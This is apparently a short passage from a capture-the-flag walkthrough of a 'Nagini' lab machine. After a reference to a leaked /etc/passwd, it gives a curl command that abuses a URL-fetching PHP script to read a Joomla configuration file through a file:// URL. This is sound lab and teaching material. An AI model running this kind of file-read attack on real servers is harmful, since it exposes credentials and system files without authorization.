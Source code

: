![Alt text](./HARRY_POTTER_NAGINI/img/passwd.PNG?raw=true "/etc/passwd")

As you might have noticed, in the webserver there is Joomla, so now let's see if we can access to Jumla configuration file.

```bash
curl http://192.168.1.174/internalResourceFeTcher.php?url=file:///var/www/html/joomla/configuration.php
```
